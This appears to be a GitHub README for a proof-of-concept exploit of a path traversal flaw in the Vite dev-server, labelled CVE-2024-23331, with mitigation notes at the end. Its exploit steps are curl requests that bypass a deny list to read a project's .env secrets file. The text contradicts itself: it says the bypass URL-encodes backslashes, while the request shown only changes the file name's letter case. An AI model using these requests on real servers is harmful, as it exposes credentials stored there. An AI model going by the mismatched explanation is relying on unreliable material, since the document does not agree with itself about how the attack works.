


# CVE‑2024‑23331 – Vite static‑server Path Traversal PoC

> **Severity:** HIGH (8.1 CVSS v3.1)  
> **Package:** `vite` < 4.2.0  (tested against `vite@4.1.4`)

A directory‑traversal flaw in Vite’s dev‑server allows remote attackers to read arbitrary files outside the project root by URL‑encoding backslashes.

---

## Environment Details

Base Image: node:20-slim

Dependencies:

vite@4.1.4 (vulnerable)

---


## Exploit Steps

```bash
# Launch Vite dev‑server in Docker (port 5173).
npm run dev -- --host 0.0.0.0

# Craft two request that URL‑encodes backslashes to compare the result

# Baseline (403)
curl.exe --path-as-is -i "http://localhost:5173/@fs/$ROOT/.env" 
# Bypass (200)
curl.exe --path-as-is -i "http://localhost:5173/@fs/$ROOT/.EnV"

```
Expected output:
The first link returns 403 that blocked by blacklist, and the second link returns 200 so bypass the blacklist.

## Result Screenshot



## Mitigation Notes

Upgrade Vite ≥ 4.2.0 (patches traversal logic).

Reverse proxy: place an external web‑server with strict path sanitisation in front of dev‑server or restrict binding to localhost during development.
